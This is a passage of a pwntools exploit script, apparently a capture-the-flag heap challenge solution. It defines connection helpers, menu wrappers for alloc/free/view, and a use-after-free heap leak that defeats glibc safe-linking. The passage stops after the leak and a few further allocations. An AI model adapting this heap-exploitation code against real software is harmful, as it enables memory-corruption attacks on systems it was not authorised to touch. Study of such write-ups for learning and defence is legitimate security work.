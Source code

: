 ```py
    else:
        return pwn.process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


gdbscript = '''
b* main
source ~/Downloads/pwndbg/gdbinit.py
continue
'''.format(**locals())

io = None

libc = pwn.ELF("libc.so.6")

io = start()

def alloc(idx, data, size, s=False):
   io.sendlineafter("-\n> ", b"1") 
   io.sendlineafter("Index?\n> ", str(idx).encode()) 
   io.sendlineafter("> ", str(size).encode()) 
   
   if s:
       io.sendafter(": ", data) 
   else:
       io.sendlineafter(": ", data) 

def free(idx):
   io.sendlineafter("> ", b"2") 
   io.sendlineafter("> ", str(idx).encode())

def view(idx):
   io.sendlineafter("> ", b"3") 
   io.sendlineafter("> ", str(idx).encode())

for i in range(7):
    alloc(i, b"", 0x100)
free(0)

view(0)

heap = ((pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) << 12))
pwn.log.info(f"heap @ {hex(heap)}")
# then we defeated safe linking lol

alloc(0, b"YY", 0x100)

alloc(7, b"YY", 0x100)
```
